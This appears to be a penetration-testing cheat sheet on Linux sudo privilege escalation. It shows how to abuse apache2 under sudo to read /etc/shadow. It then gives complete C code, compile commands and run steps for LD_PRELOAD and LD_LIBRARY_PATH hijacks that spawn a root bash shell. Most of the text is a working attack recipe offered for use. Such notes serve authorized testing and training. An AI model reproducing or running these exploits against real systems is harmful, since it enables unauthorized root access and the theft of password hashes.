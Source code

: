 ### Shell Escape Sequences

https://gtfobins.github.io/

### Abusing Intended Functionality

If a program can run with sudo (such as apache2), we might be able to disclose sensitive data by abusing intended functionality.

Example: `sudo apache2 -f /etc/shadow` will disclose the /etc/shadow contents. If you can stop the service, you might be able to run apache2 as admin and put up a php revshell that gives you root.

### env_keep abuse

If env_keep is enabled (see `sudo -l`), you can abuse LD_PRELOAD or LD_LIBRARY_PATH to run arbitrary code giving you a root shell.

#### LD_PRELOAD
1. Verify env_keep is enabled with `sudo -l` and includes LD_PRELOAD
2. Create a preload.c file with the following code:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
3. Compile it: `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`
4. Run ANY allowed program with sudo and LD_PRELOAD: 
`sudo LD_PRELOAD=/tmp/preload.so apache2`

#### LD_LIBRARY_PATH
1. Check the shared libraries of the program: `ldd /usr/sbin/apache2`
2. Create a library_path.c file with the following code:
```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
3. Compile it into one of the shared library names (for example libcrypt.so.1): 
`gcc -o libcrypt.so.1 -shared -fPIC library_path.c` 
4. Run the program with sudo and LD_LIBRARY_PATH:
`sudo LD_LIBRARY_PATH=. apache2`

---
